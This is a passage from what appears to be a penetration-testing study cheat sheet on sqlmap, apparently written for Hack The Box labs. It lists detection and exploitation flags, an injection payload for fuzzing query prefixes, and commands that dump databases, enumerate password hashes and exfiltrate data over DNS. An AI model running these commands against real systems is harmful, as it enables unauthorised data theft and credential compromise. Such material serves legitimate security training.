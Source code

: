 learned
6. If you can see the DB output and want to abuse `UNION`. Try to enumerate the prefixes.
7. for `UNION`technique choose extended test not the basic test so you can get big numbers of UNIONS. 

## Tips
- Detecting Database type will reduce your time too much.
- Do some manual tests to detect what is the difference in the page, so you can use it in sqlmap.
- Use `~/.opt/wordlist/sql_prefixes_wordList.txt` append to it a payload in burp to detect what prefix is used.
- When you giveup, use `--technique T` it will detect if some thing is vuln but it take time.

| flag             | Description                                                                                                                                                                                                                               |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-r`             | specify the file contains the request.                                                                                                                                                                                                    |
| `--batch`        | used for skipping any required user-input, by automatically choosing using the default option.                                                                                                                                            |
| `--level`        | 5 give more prefixes and suffixes `boundaries` (eg. `1')) AND 1049=6686 AND (('`), and more `vectors` --> (eg. `UNION ALL SELECT 1,2,VERSION()`)<br>by using level 5 there will be too much things to test. So make the detection slower. |
| `--risk`         | payloads may damege DB.                                                                                                                                                                                                                   |
| `--Technique`    | `BEUSTQ`. Boolean, Error, Union, Stacked, Time-based, inline-queries                                                                                                                                                                      |
| `--string="abc"` | use a known string that indicates a true/false page change to reduce false positives.                                                                                                                                                     |
## Detection
```sh
sqlmap -r req.txt --level 5 --risk 3 --dbms=MySQL --dump --batch #someTimes remove --batch
```
- It may detect unusual prefix or suffix. Play with that using manual test so you may be able to escape and use UNION. So try to put using flags for further testing to be easier.
	- `select * from users where ((id="GET['ID']"))`  --> escape this used prefix `"))`. now you can use UNION based.
	- `~/.opt/wordlist/sql_prefixes_wordList.txt` use this wordlist in burp to fuzz the prefix.
	- `GET /case6.php?col=id§'§+or+1=1--+- HTTP/1.1`
### Union based
Union based need more `manual` flags. such as datatype you want to use when do `UNION` by default its number but DB may use strings instead.

| Flag               | Description                                     |
| ------------------ | ----------------------------------------------- |
| `--union-cols`=1   | specify number of columns in query              |
| `--union-char`='a' | specify character that we will put in the query |
|                    |                                                 |



---

## Exploitation


| Flag                                                                                                                                                                                                             | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| -a, --all<br>-b, --banner<br>--current-user<br>--current-db<br>--hostname<br>--is-dba<br>--users<br>--passwords<br>--privileges<br>--roles<br>--dbs<br>--tables<br>--columns<br>--schema<br>--dump<br>--dump-all | Retrieve everything<br>Retrieve DBMS banner<br>Retrieve DBMS current user <br>Retrieve DBMS current database<br>Retrieve DBMS server hostname<br>Detect if the DBMS current user is DBA <br>Enumerate DBMS users <br>Enumerate DBMS users password hashes<br>Enumerate DBMS users privileges<br>Enumerate DBMS users roles<br>Enumerate DBMS databases <br>Enumerate DBMS database tables<br>Enumerate DBMS database table columns<br>Enumerate DBMS schema<br>dump all content from the current database<br>dump all content from all databases. |
| -D DB<br>-T TBL<br>-C COL<br>-X EXCLUDE<br>-U USER                                                                                                                                                               | DBMS database to enumerate<br>DBMS database table(s) to enumerate<br>DBMS database table column(s) to enumerate<br>DBMS database identifier(s) to not enumerate<br>DBMS user to enumerate                                                                                                                                                                                                                                                                                                                                                         |
| -C columnName1,columnName2<br>--start=2 --stop=3<br>--where                                                                                                                                                      | Specify which columns you want to get back as result<br>Limit number of retrived data.<br>specify where retrival condition                                                                                                                                                                                                                                                                                                                                                                                                                        |
| --passwords                                                                                                                                                                                                      | get the DB users passwords                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| --dns-domain                                                                                                                                                                                                     | DNS exfiltration                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| --search -T user<br>--search -C pass<br>                                                                                                                                                                         | search for table look like user<br>search for column look like pass                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|                                                                                                                                                                                                                  |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |


```shell-session
slomkm@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -D testdb -T users -C name,surname
```

complete overView over DB
```shell-session
slomkm@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --schema
```

search for specific table or column
```shell-session
slomkm@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -T user
slomkm@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

DB Users Password Enumeration and Cracking
```shell-session
slomkm@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

